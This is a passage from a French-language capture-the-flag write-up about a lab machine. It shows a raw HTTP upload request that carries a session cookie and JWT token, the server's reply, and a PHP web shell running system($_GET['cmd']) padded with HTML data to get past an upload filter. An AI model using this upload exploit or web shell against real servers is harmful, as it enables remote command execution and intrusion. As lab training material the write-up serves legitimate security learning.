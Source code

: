 ```sh
POST /portal/includes/fileController.php HTTP/1.1
Host: 10.10.10.228
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=paul47200b180ccd6835d25d034eeb6e6390; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.7pc5S1P76YsrWhi_gu23bzYLYWxqORkr0WtEz_IUtCU
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 295


------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="file"; filename="shell.html"
Content-Type: text/html


<?php phpinfo();?>
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="task"


test.php
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```

Nous obtenons ceci en réponse :


```sh
HTTP/1.1 200 OK
Date: Tue, 23 Feb 2021 16:37:26 GMT
Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1
X-Powered-By: PHP/8.0.1
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 30
Connection: close
Content-Type: text/html; charset=UTF-8


Success. Have a great weekend!
```

![h](https://media.discordapp.net/attachments/490431433559506954/823464698409648169/unknown.png)

OK, changez maintenant le phpinfo () comme suit, et ajoutez les html garbage data ci-dessus pour obtenir un shell.


```sh
<?php

system($_GET['cmd']);

?>

<h3>Title: Animal Farm</h3>

<p>Author: George Orwell </p>

<p style="color: red;">Max borrow duration: 8 days</p>

```